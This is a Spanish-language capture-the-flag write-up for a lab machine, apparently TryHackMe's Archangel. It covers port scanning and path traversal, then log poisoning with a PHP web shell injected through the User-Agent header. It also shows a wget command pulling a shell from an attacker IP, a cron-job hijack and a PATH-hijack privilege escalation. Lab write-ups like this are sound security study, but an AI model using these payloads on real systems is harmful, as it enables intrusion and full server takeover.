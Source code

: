 ```css
```PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Web 
![[Pasted image 20231115001626.png]]
Al poner el dominio, ya tenemos la primera flag.

## Fuzzing
```
/robots.txt
/test.php
```

## Path Traversal

mirando el ``/etc/passwd`` 

para ver los logs 
```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

## User-Agent Spoofing (BurpSuite)

Modificamos el php mediante el parámetro user-Agent:
```php
<?php system($_GET['cmd']);?>
```

![](agent.png)

Podemos ejecutar comandos mediante el parámetro ``&cmd=``
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id
```

![](user.png)

Cargamos una shell en php mediante wget. 
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.8.189.249:8000/shell.php
```

## Shell www-data

![[Pasted image 20231020001833.png]]

## movimiento lateral
hay una tarea cron que se ejecuta cada cierto tiempo, tenemos permisos de escritura en este archivo, así que vamos a meterle una shell, para pasarnos al usuario archangel.

![[Pasted image 20231020002053.png]]

![[Pasted image 20231020002120.png]]

## Elevar privilegios
Tenemos un binario ``backup`` que tira de ``cp`` para hacer alguna movida de copia. 

vamos a crear un ``cp`` falso el cual agregamos al path para que nos de una bash cuando ejecutemos el binario 
![[Pasted image 20231020002338.png]]

![[Pasted image 20231020002346.png]]

Al ejecutarlo ya somos root.